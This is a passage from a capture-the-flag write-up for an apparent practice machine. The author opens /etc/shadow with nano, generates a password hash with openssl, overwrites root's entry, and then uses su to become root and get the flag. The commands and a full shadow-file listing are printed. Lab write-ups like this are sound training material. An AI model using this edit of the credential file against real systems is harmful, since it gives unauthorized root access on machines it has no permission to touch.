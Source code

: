 /usr/bin/nano /etc/shadow

I wasn’t able to crack the password, but maybe  can just change it.

I generated the password using

```bash
openssl passwd -6 -salt xyz cat
```

And then I replaced the root one:

```bash
root:$6$xyz$SY6bQy3sDajZ0bHnCG35i3R6ykQksyM6FsKDhwWIi6PAr1tmNG2IIkuMaKq.eZtztGCTScNGLxe9Fdzn4CBMK1:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:19502::::::
ubuntu:<redacted>:19519:0:99999:7:::
lxd:!:19502::::::
mysql:!:19502:0:99999:7:::
zeamkish:<redacted>.:19516:0:99999:7:::
ftp:*:19519:0:99999:7:::
bind:*:19523:0:99999:7:::
Debian-snmp:!:19523:0:99999:7:::
redis:*:19523:0:99999:7:::
mosquitto:*:19523:0:99999:7:::
fwupd-refresh:*:19544:0:99999:7:::
```

So now I can su as the root and get the flag in the root directory.

```bash
su root
Password: cat
root@ip-10-10-108-101:/home/zeamkish#
```
